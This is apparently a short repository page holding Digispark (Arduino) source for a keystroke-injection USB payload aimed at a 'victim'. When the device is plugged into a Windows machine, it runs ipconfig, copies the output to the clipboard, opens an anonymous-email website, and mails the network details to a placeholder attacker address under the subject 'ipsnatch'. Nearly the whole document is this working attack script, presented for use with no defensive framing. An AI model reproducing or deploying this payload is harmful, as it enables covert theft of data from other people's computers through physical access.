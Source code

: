 This payload copies the victim's network information and sends it to your email.

(Runs only once)

  #include "DigiKeyboard.h"
  #define KEY_TAB  43
  void setup() {
    DigiKeyboard.sendKeyStroke(0);
    DigiKeyboard.delay(500);
    DigiKeyboard.sendKeyStroke(KEY_R, MOD_GUI_LEFT);
    DigiKeyboard.delay(200);
    DigiKeyboard.println("cmd");
    DigiKeyboard.sendKeyStroke(KEY_ENTER);
    DigiKeyboard.delay(400);
    DigiKeyboard.println("ipconfig | clip & exit");
    DigiKeyboard.sendKeyStroke(KEY_ENTER);
    DigiKeyboard.delay(400);
    DigiKeyboard.sendKeyStroke(KEY_R, MOD_GUI_LEFT);
    DigiKeyboard.delay(200);
    DigiKeyboard.println("http://anonymouse.org/anonemail.html");
    DigiKeyboard.sendKeyStroke(KEY_ENTER);
    DigiKeyboard.delay(5000);
    DigiKeyboard.sendKeyStroke(KEY_TAB);
    DigiKeyboard.delay(50);
    DigiKeyboard.sendKeyStroke(KEY_TAB);
    DigiKeyboard.delay(50);
    DigiKeyboard.sendKeyStroke(KEY_TAB);
    DigiKeyboard.delay(50);
    DigiKeyboard.sendKeyStroke(KEY_TAB);
    DigiKeyboard.delay(50);
    DigiKeyboard.sendKeyStroke(KEY_TAB);
    DigiKeyboard.delay(50);
    DigiKeyboard.println("YOUREMAILHERE");
    DigiKeyboard.delay(50);
    DigiKeyboard.sendKeyStroke(KEY_TAB);
    DigiKeyboard.delay(50);
    DigiKeyboard.println("ipsnatch");
    DigiKeyboard.delay(50);
    DigiKeyboard.sendKeyStroke(KEY_TAB);
    DigiKeyboard.delay(50);
    DigiKeyboard.sendKeyStroke(KEY_V, MOD_CONTROL_LEFT);
    DigiKeyboard.delay(200);
    DigiKeyboard.sendKeyStroke(KEY_TAB);
    DigiKeyboard.delay(50);
    DigiKeyboard.sendKeyStroke(KEY_ENTER);
    DigiKeyboard.delay(3000);
    DigiKeyboard.sendKeyStroke(KEY_F4, MOD_ALT_LEFT);
  }
  void loop() {
  }